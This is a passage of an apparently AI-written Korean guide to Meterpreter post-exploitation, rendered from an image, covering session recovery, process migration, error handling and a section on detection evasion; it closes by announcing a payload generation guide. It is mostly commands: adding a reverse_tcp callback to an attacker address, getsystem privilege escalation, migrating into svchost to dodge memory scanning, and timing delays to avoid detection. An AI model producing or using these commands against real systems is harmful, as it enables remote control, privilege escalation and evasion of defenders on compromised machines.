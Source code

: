### 세션 복구

```bash
# 세션이 끊어진 경우 재연결
meterpreter > transport list
meterpreter > transport add -t reverse_tcp -l 192.168.1.50 -p 4445
meterpreter > transport set reverse_tcp://192.168.1.50:4445
```

## 성능 최적화 및 팁

### 메모리 사용량 최적화

```bash
# 불필요한 확장 언로드
meterpreter > use -l  # 로드된 확장 확인
meterpreter > use -u kiwi  # kiwi 확장 언로드

# 프로세스 마이그레이션으로 안정성 확보
meterpreter > ps | grep explorer
meterpreter > migrate <PID>
```

### 에러 처리

```bash
# 일반적인 에러 상황들

# "Operation failed: Access is denied" -> 권한 부족
meterpreter > getsystem

# "Operation failed: Invalid parameter" -> 잘못된 명령어 파라미터
meterpreter > help <command>

# 세션 불안정 -> 마이그레이션 필요
meterpreter > migrate <stable_process_pid>
```

## 보안 고려사항

### 탐지 회피

```bash
# 메모리 스캔 회피를 위한 마이그레이션
meterpreter > ps | grep svchost
meterpreter > migrate <svchost_pid>

# 네트워크 트래픽 암호화
meterpreter > use -l  # TLS 사용 여부 확인

# 타이밍 공격 방지
meterpreter > sleep 5  # 5초 대기 후 명령 실행
```

이제 페이로드 생성 가이드를 작성하겠습니다.
